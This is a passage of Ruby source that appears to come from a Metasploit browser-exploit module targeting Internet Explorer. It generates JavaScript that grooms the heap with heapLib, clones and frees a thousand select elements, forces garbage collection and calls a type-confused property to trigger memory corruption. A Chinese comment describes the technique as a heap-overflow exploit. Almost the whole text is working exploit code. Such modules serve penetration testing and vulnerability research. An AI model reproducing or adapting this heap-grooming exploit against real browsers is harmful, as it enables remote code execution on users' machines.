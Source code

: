 ```ruby
			select_element = build_element('selob', my_target)
		else

			js_trigger = <<-JSTRIGGER
			function trigger(){   #JS 层验证 通过 string obj类型转换  来破坏堆，进行堆溢出利用
				var k = 999;
				while (k > 0) {
					if (typeof(clones[k].w0) == "string") {
					} else {
						clones[k].w0('come on!');
					}
					k = k - 2;
				}
				feng_shui();
				document.audio.Play();
			}
			JSTRIGGER

			select_element = build_element('selob', my_target)
		end

		trigger = <<-JS
			var heap = new heapLib.ie();
			#{select_element}
			var clones=new Array(1000);

			function feng_shui() {

				heap.gc();

				var i = 0;
				while (i < 1000) {
					clones[i] = selob.cloneNode(true)
					i = i + 1;
				}

				var j = 0;
				while (j < 1000) {
					delete clones[j];
					CollectGarbage();
					j  = j + 2;
				}

			}

			feng_shui();

			#{js_trigger}
		JS

		trigger = heaplib(trigger, {:noobfu => true})
		return trigger
	end

	def find_trigger_fn(trigger)
		fns = trigger.scan(/function ([a-zA-Z0-9_]+)\(\)/)
		if fns.nil? or fns.empty?
			return "trigger"
		else
			return fns.last.first
		end
		return "trigger"
	end
```